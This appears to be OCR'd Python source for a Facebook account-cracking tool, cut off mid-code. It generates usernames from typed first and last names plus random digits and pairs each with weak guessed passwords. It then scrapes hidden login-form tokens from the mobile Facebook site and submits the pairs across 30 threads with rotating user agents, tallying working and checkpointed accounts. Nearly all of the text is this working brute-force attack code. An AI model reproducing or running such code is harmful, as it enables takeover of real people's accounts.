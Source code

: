 def gml():
                user=[]
                pcp=[]
                clear()
                pcp.append(f'y')
                print('\033[1;32m Name  example:  Shahin, Sabbir, Forhad ')
                code = input(' First name : ')
                print(' Name Example : Alam, hossen, hossain')
                codex = input(' Last name : ')
                try:
                        limit = int(input('\033[1;32m example: 2000, 3000, 5000, 10000\n\033[1;37m put limit: '))
                except ValueError:
                        limit = 5000
                for nmbr in range(limit):
                        nmp = ''.join(random.choice(string.digits) for _ in range(2,5))
                        user.append(nmp)
                with tred(max_workers=30) as sat:     
                        clear()
                        tl = str(len(user))
                        print(' Total account : \033[1;32m'+tl)
                        print(f'\033[1;37m Choice code ..:\033[1;32m '+code)
                        print(f'\033[1;32m Random Testing Version ..... ')
                        print(f'\033[1;37m \x1b[38;5;126m Prosess started\033[1;97m')
                        linex()
                        for psx in user:
                                ids = code+codex+psx
                                passlist = [code,codex,code+codex,code+' '+codex,code+'123',code+'1234',code+'12345','@#@#@#','123890']
                                sat.submit(apix,ids,passlist)
                print('\033[1;37m')
                linex()
                print(' The process has completed')
                print(' Total OK/CP: '+str(len(oks))+'/'+str(len(cps)))





def rcrack_free(idf,pwv):
	#print(user)
	global loop
	global cps
	global oks
	global agents
	try:
		for ps in pwv:
	#		print(idf+'|'+ps)
			#session = requests.Session()
			sys.stdout.write(f'\r\r\033[1;37m [NINS] %s|\033[1;32mOK:-%s \033[1;37m'%(loop,len(oks)));sys.stdout.flush()
			session = requests.Session()
			pro = random.choice(useragent)
			free_fb = session.get('https://m.alpha.facebook.com').text
			log_data = {
				"lsd":re.search('name="lsd" value="(.*?)"', str(free_fb)).group(1),
			"jazoest":re.search('name="jazoest" value="(.*?)"', str(free_fb)).group(1),
			"m_ts":re.search('name="m_ts" value="(.*?)"', str(free_fb)).group(1),
			"li":re.search('name="li" value="(.*?)"', str(free_fb)).group(1),
			"try_number":"0",
			"unrecognized_tries":"0",
			"email":idf,
			"pass":ps,
			"login":"Log In"}
			header_freefb = {'authority':'m.alpha.facebook.com',